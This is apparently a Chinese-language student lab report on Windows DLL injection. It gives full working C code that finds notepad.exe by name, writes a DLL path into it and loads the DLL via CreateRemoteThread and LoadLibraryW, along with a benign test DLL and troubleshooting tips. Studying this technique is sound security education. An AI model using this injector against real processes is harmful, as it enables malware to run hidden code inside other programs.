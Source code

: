 # DLL 注入攻击

## `demoCreateRemoteThreadW`分析

- 跨进程创建线程，该线程使用`LoadLibraryW`加载 DLL
```c
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	// WriteProcessMemory: Writes data to an area of memory in a specified process. The entire area to be written to must be accessible or the operation fails.
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		printf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}
```

## 实验要求

- [x] 向一个目标程序注入一个我们自行编写的`dll`
- [x] 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的`pid`

## 实验过程

### 修改`base.c`

- 添加`DLL`入口点函数
	```c
	BOOL WINAPI DllMain(
		HINSTANCE hinstDLL,  // handle to DLL module
		DWORD fdwReason,     // reason for calling function
		LPVOID lpReserved)  // reserved
	{
		// Perform actions based on the reason for calling.
		switch (fdwReason)
		{
		case DLL_PROCESS_ATTACH:
			// Initialize once for each new process.
			lib_function("loaded");	// 进程初次加载baselib.dll时将调用lib_function
			// Return FALSE to fail DLL load.
			break;
		}
		return TRUE;  // Successful DLL_PROCESS_ATTACH.
	}
	```

### 攻击程序完整代码

- [`demoCreateRemoteThreadW`函数](#democreateremotethreadw分析)
- `getProcessID`函数
	```c
	DWORD getProcessID(const char* pname)
	{
		HANDLE hProcessSnap;
		PROCESSENTRY32 pe32;

		// Take a snapshot of all processes in the system.
		hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
		if (hProcessSnap == INVALID_HANDLE_VALUE)
		{
			printf(TEXT("CreateToolhelp32Snapshot (of processes)"));
			return(FALSE);
		}

		// Set the size of the structure before using it.
		pe32.dwSize = sizeof(PROCESSENTRY32);

		// Retrieve information about the first process,
		// and exit if unsuccessful
		if (!Process32First(hProcessSnap, &pe32))
		{
			printf(TEXT("Process32First")); // show cause of failure
			CloseHandle(hProcessSnap);          // clean the snapshot object
			return(FALSE);
		}

		// Now walk the snapshot of processes, and
		// get pid with the given process name
		do
		{
			if (lstrcmp(pe32.szExeFile, TEXT(pname)) == 0)
			{
				CloseHandle(hProcessSnap);
				return pe32.th32ProcessID;
			}
		} while (Process32Next(hProcessSnap, &pe32));
		return FALSE;
	}
	```
- `main`函数
	```c
	int main()
	{
		// 由notepad.exe来加载dll，应使用绝对路径
		PCWSTR dllpath = L"F:/XXX/Happy/Debug/baselib.dll";
		DWORD pid = getProcessID("notepad.exe");
		if (pid == 0) exit(0);
		return demoCreateRemoteThreadW(dllpath, pid);
	}
	```

### 实验效果

![DLL 成功注入](img/dll-injection-success.png)

## 问题及解决

### 无法获得进程句柄

- 应使用管理员身份运行攻击者程序

### 无法创建远程线程

- 由远程进程创建加载 DLL 的线程，远程进程的程序所在目录与当前进程的程序所在目录通常不同，因而提供的 DLL 路径应为绝对路径
- 不使用`C:\Windows\System32`下，64位的`notepad.exe`，改为使用`C:\Windows\SysWOW64`下，32位的`notepad.exe`

## 实验总结

- 结合标准库`CreateRemoteThread`函数和 DLL 加载时可以强制调用函数的特性进行 DLL 注入攻击

## 参考资料

- [Dynamic-Link Library Entry-Point Function](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-entry-point-function)